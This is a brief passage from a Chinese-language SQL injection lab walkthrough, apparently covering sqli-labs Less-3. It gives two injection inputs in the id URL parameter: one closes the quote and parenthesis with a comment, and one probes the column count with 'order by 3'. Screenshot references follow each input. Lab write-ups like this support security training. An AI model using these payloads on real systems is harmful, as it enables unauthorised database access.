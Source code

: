 + 注入下面的<code>sql</code>语句：

~~~ shell
?id=1')--+
~~~

![Less-3_2](./img/Less-3_2.PNG)



+ 注入以下语句进行

~~~ shell
?id=1') order by 3--+
~~~

![Less-3_3](./img/Less-3_3.PNG)
